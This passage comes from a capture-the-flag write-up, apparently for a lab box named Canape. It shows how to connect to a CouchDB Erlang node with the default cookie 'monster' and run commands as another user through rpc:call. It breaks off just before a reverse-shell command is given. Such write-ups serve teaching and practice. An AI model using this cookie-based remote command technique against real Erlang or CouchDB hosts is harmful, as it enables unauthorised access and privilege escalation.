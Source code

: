 ```

```

We can connect to epmd with erl, The Erlang Emulator. We need to give it two parameters. `-sname` can be anything, just what we are known as in the cluster. `-setcookie` is the auth from the warning on the CouchDB site. erl throws an error if our `HOME` variable isn’t set, but that’s easy enough to fix:

```

www-data@canape:/$ HOME=/ erl -sname 0xdf -setcookie monster
Eshell V7.3  (abort with ^G)
(0xdf@canape)1>

```

Erlang has an [os module](http://erlang.org/doc/man/os.html) which can be used to call system-specific functions. So if we run it here, we get the results from our current process:

```

(0xdf@canape)1> os:cmd("whoami").
"www-data\n"

```

Erlang also has an [rpc module](http://erlang.org/doc/man/rpc.html). It has a call function that takes a node, module, function, and arguments. We can use that to run commands through the CouchDB process.

If we check our current nodes, it’s empty:

```

(0xdf@canape)2> nodes().
nodes().

```

When we issue the rpc call, it will actually add the code for us (assuming our cookie matches):

```

(0xdf@canape)3> rpc:call('couchdb@localhost', os, cmd, [whoami]).
rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"

(0xdf@canape)3> nodes().
nodes().
[couchdb@localhost]

```

Now, we want to get a full shell. To run a command that’s anything more than a single word, we’ll put it in `""`s. To get a shell, we’ll use a python reverse shell, and be careful to escape correctly:

